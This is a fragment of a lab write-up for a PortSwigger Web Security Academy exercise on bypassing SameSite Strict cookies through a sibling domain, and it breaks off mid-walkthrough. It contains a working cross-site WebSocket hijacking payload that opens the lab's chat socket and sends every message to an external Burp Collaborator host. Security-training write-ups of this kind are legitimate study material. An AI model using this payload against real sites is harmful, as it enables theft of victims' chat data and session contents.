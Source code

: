 References: 

- https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions

- https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking



![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/1.png)

---------------------------------------------

From the already completed “Cross-site WebSocket hijacking” lab in the WebSockets section we have the payload:

```
<script>
    var ws = new WebSocket('wss://0a29009b04e2e582804fc1f700b800d5.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://if1w7siga1cezj30b8k08i20erki8bw0.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```


There is a connection:



